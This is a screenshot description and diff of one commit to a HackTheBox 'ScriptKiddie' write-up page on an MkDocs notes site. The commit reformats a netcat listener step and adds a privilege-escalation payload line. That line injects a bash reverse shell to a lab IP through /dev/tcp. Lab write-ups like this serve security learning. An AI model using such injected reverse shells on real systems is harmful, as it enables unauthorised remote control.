

Before and after one commit to jak010/cyberNote, an MkDocs documentation site: the page built from docs/hackthebox/scriptkiddie.md, in a window 1280 px wide and 900 px high, scrolled down 1001 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1829 px from its top, so only the background shows below that.

Commit message:
HackTheBox ScriptKiddie

````diff
--- a/docs/hackthebox/scriptkiddie.md
+++ b/docs/hackthebox/scriptkiddie.md
@@ -50,9 +50,12 @@
     [+] msf.apk stored at /Users/jak/.msf4/local/msf.apk
     ```
 - Reverse Shell
-	- OS X
-        ```sh
-        $ nc -nvl 4444
-        ```
+    ```sh
+    $ nc -nvl 4444
+    ```
 
 ### Priviliege Escalate
+- Payload
+    ```sh
+    $ echo “ ;/usr/bin/bash -c ‘/usr/bin/bash -i >& /dev/tcp/10.10.14.58/9001 0>&1’ #” >> hackers
+    ```
````
